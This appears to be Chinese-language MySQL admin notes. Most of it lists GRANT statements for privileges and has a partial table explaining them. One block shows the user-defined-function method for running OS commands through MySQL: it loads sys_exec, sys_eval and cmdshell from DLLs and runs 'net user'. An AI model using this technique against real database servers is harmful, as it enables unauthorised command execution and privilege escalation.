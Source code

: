 ```mysql
# 创建用户并授予其对数据表的创建的权限
grant create  on  数据库名.*  to  用户@‘网段或IP’  identified by  '密码'；
# 创建用户并授予其对数据表的修改权限
grant alter on 数据库名.*  to 用户@‘网段或IP’ identified by '密码'；
# 创建用户并授予其对数据库/表/视图的删除的权限
grant drop on  数据库名.*  to 用户@‘网段或IP’ identified by '密码'；
# 创建用户并授予其对数据库下表的设置外键的权限
grant references on 数据库名.*  to 用户@‘网段或IP’ identified by  '密码';
# 创建用户并授予其对数据库的设置临时表权限
grant create temporary tables on 数据库名.*  to  用户@‘网段/IP’  identified by '密码';
# 创建用户并授予其对某数据库范围的表设置索引的权限
grant  index on 数据库名.*  to 用户@‘网段或IP’ identified by '密码';
# 创建用户并授予其对某数据库范围内创建视图的权限
grant create view on 数据库名.* to 用户@‘网段或IP’ identified by  '密码';
# 创建用户并授予其对某数据库范围内查看视图的权限
grant show view on 数据库名.* to 用户@‘网段/IP’ identified by '密码';
# 创建用户并授予其对某数据库范围内存储过程、函数的权限
grant create routine on 数据库名.*  to 用户@‘网段或IP’;   -- now, can show procedure status
grant alter routine on 数据库名.*  to 用户@'网段或IP';     -- now, you can drop a procedure 
grant execute on 数据库名.* to  用户@'网段或IP';
# 创建用户并授予其对数据表中列的权限 如有很多列，要用逗号隔开
grant select(列的名字)   on 数据库.数据表 to 用户@‘网段或ip’ identified by  ‘密码';
# 创建用户并授予对数据表中的存储过程和函数的权限
grant execute on procedure 数据库名.数据表名 to '用户'@'网段或IP'  identified by '密码';
grant execute on function 数据库名.数据表名 to '用户'@'网段或IP' identified by '密码';


show GLOBAL VARIABLES like "%base%";
show GLOBAL VARIABLES like "%plugin%";

create FUNCTION cmdshell RETURNS string SONAME "mysqlclient.dll";

CREATE FUNCTION udf_add RETURNS INTEGER SONAME "mysqlclient.dll";
drop function udf_add;

create function sys_exec returns int soname 'lib_mysqludf_sys_64.dll';

create function sys_eval returns string soname 'lib_mysqludf_sys_64.dll';
select * from mysql.func;

SELECT sys_exec('net user');
SELECT sys_eval('net user');
SELECT cmdshell('net user >> hello.txt');
```

| 权限                    |                             备注                             |
| ----------------------- | :----------------------------------------------------------: |
| all privileges          | 除with grant option(让授权的用户，也可以将这些权限 grant 给其他用户,权限复制)之外的所有权限 |
| alter                   |                     对数据表的修改的权限                     |
| alter routine           |            更改或者删除存储函数或者存储过程的权限            |
| create                  |                     创建数据库及表的权限                     |
| create routine          |                   更改和弃用存储过程的能力                   |
| create temporary tables |                       创建临时表的权限                       |
| create user             |                 创建、重命名和撤销用户的权限                 |
| create view             |                        创建视图的权限                        |
| delete                  |                    数据表中删除数据的权限                    |